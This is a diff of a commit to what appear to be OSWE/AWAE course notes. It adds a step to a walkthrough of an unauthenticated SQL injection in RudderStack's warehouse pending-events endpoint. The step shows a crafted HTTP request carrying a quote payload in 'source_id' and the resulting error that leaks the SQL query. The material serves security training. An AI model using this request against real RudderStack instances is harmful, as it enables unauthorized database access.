

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: RudderStack/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/RudderStack/README.md
+++ b/RudderStack/README.md
@@ -261,3 +261,34 @@ This creates a SQL statement on lines `1785` through `1796`, using `Sprintf()`.
 Since we can control the value of `sourceOrDestId` from our unauthenticated request, we should be able to exploit this SQL injection vulnerability. We'll explore the exploitation technique in the next section.
 
 ### Exploiting the SQL Injection Vulnerability
+Let's verify that we can manipulate the SQL query. In *Repeater*, we'll update the `source_id` value to include a single quote (`'`) and then *Send* the request.
+```text
+POST /v1/warehouse/pending-events?triggerUpload=true HTTP/1.1
+Host: rudderstack:8080
+Content-Type: application/json
+Content-Length: 43
+
+{
+"source_id": "'",
+"task_run_id": "1"
+}
+```
+Response received:
+```text
+HTTP/1.1 500 Internal Server Error
+Content-Length: 227
+Content-Type: text/plain; charset=utf-8
+Date: Thu, 31 Jul 2025 19:40:15 GMT
+Vary: Origin
+X-Content-Type-Options: nosniff
+
+error getting pending staging file count : query:
+		SELECT
+		  MAX(end_staging_file_id)
+		FROM
+		  wh_uploads
+		WHERE
+		  wh_uploads.source_id = ''';
+ failed with Error : pq: unterminated quoted string at or near "''';
+"
+```
````
